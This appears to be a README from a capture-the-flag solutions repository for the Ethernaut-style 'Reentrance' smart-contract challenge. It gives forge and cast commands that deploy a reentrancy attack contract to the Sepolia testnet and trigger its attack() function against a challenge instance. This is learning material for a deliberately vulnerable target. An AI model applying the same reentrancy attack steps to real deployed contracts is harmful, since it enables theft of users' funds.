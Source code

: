 # Reentrance Solution

Deploy:

```bash
forge create ReentranceHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args <instanceAddress>
```

Run:

```bash
cast send <reentranceHackAddress> "attack()" --value 10000000000000000wei --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
